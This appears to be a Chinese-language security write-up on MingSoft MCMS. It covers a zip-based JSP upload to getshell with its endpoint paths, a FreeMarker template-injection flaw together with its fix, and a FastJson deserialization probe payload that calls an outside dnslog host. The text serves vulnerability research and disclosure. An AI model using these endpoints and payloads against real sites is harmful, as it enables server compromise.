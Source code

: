 ![1679020716_6413d2ac11d349ae1f309.png!small?1679020710683](https://image.3001.net/images/20230317/1679020716_6413d2ac11d349ae1f309.png!small?1679020710683)

## 文件上传

### 模板位置上传

```
/ms/file/uploadTemplate.do
```

![1679020966_6413d3a63daf801a241c7.png!small](https://image.3001.net/images/20230317/1679020966_6413d3a63daf801a241c7.png!small)

打包jsp文件为zip，上传模板即可，前端时间监听，会发送解压请求

![1679021029_6413d3e56639c9ef33a17.png!small?1679021023760](https://image.3001.net/images/20230317/1679021029_6413d3e56639c9ef33a17.png!small?1679021023760)

如果使用Tomcat运行的项目，访问可getshell，`http://localhost:8888/template/1/xxx.jsp`代码没什么好看得，正常上传正常解压，没有检验删除，有删除可以试试条件竞争

### 图片位置上传

还有一处系统设置里的上传网站logo，也是上传zip，这里需要自己调用unZip

`/ms/file/upload.do`上传后会回显路径

```
/ms/template/unZip.do?fileUrl=zip路径
```



## SSTI：Freemarker模板注入

![1679021270_6413d4d6cf5956116f1d2.png!small?1679021266163](https://image.3001.net/images/20230317/1679021270_6413d4d6cf5956116f1d2.png!small?1679021266163)

自定义页面，绑定它，然后访问即可，没有进行安全配置

源码位置net\mingsoft\base\util\FtlUtil.java

如果加上cfg.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);漏洞就可以修复，也可以试试Freemarker的include包含模板，可惜在win下没成功

## FastJson <=1.2.80 反序列化 存在但难以利用

### 复现

只能看看ip，爆下依赖

![1679021661_6413d65d08fc91f3b1a3c.png!small?1679021655743](https://image.3001.net/images/20230317/1679021661_6413d65d08fc91f3b1a3c.png!small?1679021655743)

post参数jsonConfig={"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"xxxxxxxx.dnslog.cn"}}}

### 源码
